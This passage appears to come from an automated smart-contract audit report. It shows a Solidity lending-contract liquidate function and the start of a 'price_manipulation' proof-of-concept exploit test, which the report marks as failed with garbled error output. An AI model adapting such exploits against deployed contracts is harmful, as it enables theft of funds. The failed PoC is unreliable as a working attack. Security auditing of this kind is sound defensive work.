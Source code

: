 ```solidity

function liquidate(address borrower) external {
        require(isLiquidatable(borrower), "Loan not liquidatable");
        Loan memory loan = loans[borrower];
        uint256 debt = getCurrentDebt(borrower);
        uint256 collateral = loan.collateral;
        delete loans[borrower];
        require(
            token.transferFrom(msg.sender, address(this), debt),
            "Token transfer failed"
        );
        (bool success, ) = msg.sender.call{value: collateral}("");
        require(success, "Collateral transfer failed");
    }
```

**Affected Functions:** repayLoan, liquidate

---

## Proof of Concept Exploits

### PoC #1: price_manipulation

**File:** /Users/advait/Desktop/NTU/fyp-fr/exploit/src/test/PoC_unknown_1742489802.sol

**Execution:** ❌ FAILED after 2 fix attempts

**Error:** Error
fail
Error
Error

**Exploit Code:**

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.13;

import "./basetest.sol";

// Minimal ERC20 interface
interface IERC20 {
    function transfer(address to, uint256 amount) external returns (bool);
    function transferFrom(address from, address to, uint256 amount) external returns (bool);
    function mint(address to, uint256 amount) external;
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external;
}

// Price Oracle interface
interface IPriceOracle {
    function getPrice() external view returns (uint256);
}

// Simple ERC20 token for testing purposes
contract SimpleERC20 is IERC20 {
    string public name;
    string public symbol;
    uint8 public decimals = 18;
    uint256 public totalSupply;
    mapping(address => uint256) public balances;
    mapping(address => mapping(address => uint256)) public allowance;
    
    constructor(string memory _name, string memory _symbol) {
```